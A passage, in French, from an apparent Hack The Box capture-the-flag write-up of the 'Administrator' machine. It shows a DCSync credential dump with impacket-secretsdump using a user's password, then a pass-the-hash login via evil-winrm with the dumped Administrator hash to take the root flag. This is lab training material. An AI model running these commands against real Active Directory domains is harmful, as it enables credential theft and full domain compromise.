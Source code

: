 ![DCSync permission](/images/HTB-Administrator/Ethan_DCSync.png)

Nous pouvons l'utiliser pour récupérer le hash de l'administrateur.

```
impacket-secretsdump.py 'Administrator.htb/ethan:limpbizkit'@'dc.administrator.htb'
```

![DCSync attack](/images/HTB-Administrator/DCSync_administrator.png)

Nous nous connectons avec le hash de l'administrateur et récupérons le drapeau root.

```
evil-winrm -u 'Administrator' -H "3dc553ce4b9fd20bd016e098d2d2fd2e" -i {TARGET_IP}
```

![root flag](/images/HTB-Administrator/root_flag.png)




